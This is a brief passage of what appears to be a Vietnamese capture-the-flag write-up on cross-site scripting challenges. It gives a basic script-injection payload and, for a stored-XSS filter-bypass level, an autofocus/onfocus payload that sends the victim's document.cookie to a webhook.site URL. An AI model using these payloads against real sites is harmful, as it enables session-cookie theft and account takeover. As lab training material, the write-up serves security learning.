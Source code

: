 Payload:  `“><script>alert(1)</script>`

![image.png](Images/image%2016.png)

Thành công thực thi js
Cách lấy flag như XSS-03

## XSS-05: **XSS - Stored - filter bypass**

<xss onfocus=document.location="https://webhook.site/333857da-efb7-48e7-93d7-f59a7b4a7883?data=".concat(document.cookie)
autofocus tabindex=1>

![image.png](Images/image%2017.png)
